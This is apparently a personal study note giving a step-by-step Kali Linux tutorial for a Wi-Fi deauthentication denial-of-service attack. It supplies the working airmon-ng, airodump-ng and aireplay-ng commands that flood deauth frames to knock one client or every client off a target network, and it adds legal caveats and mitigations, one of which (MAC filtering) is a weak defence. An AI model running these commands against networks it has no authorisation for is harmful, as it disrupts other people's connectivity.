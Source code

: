 up:: [[Deauthentication attack]]

# How to Exploit Deauthentication Attacks

A [[Deauthentication attack]] is a type of Denial of Service (DoS) attack where wireless devices are forcibly disconnected from a network by constantly sending deauthentication frames from the router to the client. While this attack can be instrumental for network testing and educational purposes, it's illegal to perform on networks without explicit permission. Ensure you have the appropriate authorization before proceeding with the following steps on a live network.

### Prerequisites

1. **[[Kali Linux]]**: Installed and updated.
2. **Wireless Network Adapter**: Supports [[Change MAC from Managed to Monitor Mode|monitor mode]] and packet injection.
3. **[[Aireplay-ng]]**: Part of the [[Aircrack-ng]] suite, usually pre-installed in [[Kali Linux]].

### Steps to Perform a Deauthentication Attack

#### Step 1: Install Aircrack-ng

Ensure [[Aircrack-ng]] is installed. You can install it via terminal if it's not already installed:
```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

#### Step 2: Enable Monitor Mode

First, identify your wireless card (usually `wlan0` or `wlan1`):
```bash
iwconfig
```
Then, enable monitor mode on the wireless card:
```bash
sudo airmon-ng start wlan0
```
The interface will typically be renamed to something like `wlan0mon` or `mon0`.

#### Step 3: Find the Target Network

Use `airodump-ng` to list all available WiFi networks:
```bash
sudo airodump-ng wlan0mon
```
Note the BSSID (MAC address of the access point) and the channel (CH) of the network you want to target.

#### Step 4: Target the Network for the Attack

Focus on the specific network by using `airodump-ng` on its channel and BSSID:
```bash
sudo airodump-ng --bssid [Target BSSID] -c [Channel] wlan0mon
```
Keep this terminal open as it needs to capture the handshakes.

#### Step 5: Deauthenticate a Client

Open a new terminal window and use `aireplay-ng` to send deauthentication packets:
```bash
sudo aireplay-ng --deauth 0 -a [Target BSSID] -c [Client MAC Address] wlan0mon
```
Here, `-a [Target BSSID]` is the MAC address of the target network, `-c [Client MAC Address]` is the MAC address of the client to deauthenticate (optional, if not specified, it will deauth all clients on the network), and `0` in `--deauth 0` means an infinite number of deauth packets will be sent.

If you don't specify a client MAC address, it will deauthenticate all clients connected to the network, causing them all to disconnect.

### Important Considerations

- **Legal Implications**: Performing a [[deauthentication attack]] on a network without permission is illegal and unethical.
- **Security Awareness**: Understanding how deauthentication works is crucial for securing wireless networks against such attacks.
- **Protecting Networks**: Use encrypted protocols like WPA3, regularly update firmware, and employ MAC filtering to mitigate the risk of [[Deauthentication attack|deauthentication attacks]].

Always use this knowledge responsibly to test networks you own or have explicit permission to test. This guide is intended for educational purposes only.